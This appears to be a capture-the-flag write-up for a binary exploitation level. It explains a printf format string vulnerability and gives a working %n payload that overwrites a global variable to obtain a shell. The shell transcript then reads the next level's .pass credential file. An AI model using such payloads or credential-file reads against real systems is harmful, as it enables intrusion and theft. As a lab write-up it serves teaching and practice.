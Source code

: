 ## Press printf's f for fun and profit (level3)

This level's [binary](level3/source.c) is fairly similar to the last one. It
takes user input and prints it back to stdin:

```shell
# run the binary
./level3
# give it some input
blablabla
# get our input
blablabla
```

However, this time fgets is used to get user input and the buffer length is
valid so the input itself is protected. Although now it's not puts that is used
to print back the input but printf, directly on the input buffer. This means
that we can feed printf format string directly into this binary which allows us
to perform a
[format string attack](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b).

After analysis of the binary through ghidra and gdb, we can see that there is an
unitialized global variable _m_ (thus living in the .bss part of our program's
memory). Since it is not explicitely given a value by the user, it will be set
to 0. This variable is only used once. It is compared to 0x40 (so if it is equal
to 64). If it is indeed equal to this value the binary will give us a shell. So
the goal here is to find a way to set _m_ to 64 through the printf call.

First let's get _m_'s address:

```shell
# run gdb on the binary
gdb ./level3
# get the address
(gdb) i addr m
Symbol "m" is at 0x804988c in a file compiled without debugging.
```

Now we can try adding some conversions to the format string to pop random values
from a stack and when we reach our buffer:

```shell
echo 'aaaabbbbccccdddd %p %p %p %p' | ./level3
aaaabbbbccccdddd 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161
```

The p conversion prints the input value as a pointer (here a 32bit pointer) in
hexadecimal. Here the fourth value is "0x61616161" so this means we reached our
buffer starting with "aaaa" (since 0x61 is the asci code for 'a'). This means
that from the fourth conversion we control which parameter we give to printf.
All we have to do here is to start our exploit payload with the bytes
representing the _m_ variable's address and to use the n conversion to write on
it. The n conversion will not print anything, it will simply write the number of
bytes printed by printf to the given address. We just need to make the entire
format print 64 bytes. To do this we just need to adjust the conversions field
width.

Here's the magic payload:

```shell
# feed the exploit payload to the binary
(python -c 'print "\x08\x04\x98\x8c"[::-1] + "%08p%08p%042p%n"'; cat) | ./level3
0x0002000xb7fd1ac00x00000000000000000000000000000000b7ff37d0
Wait what?!
# there we are, we got the shell
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

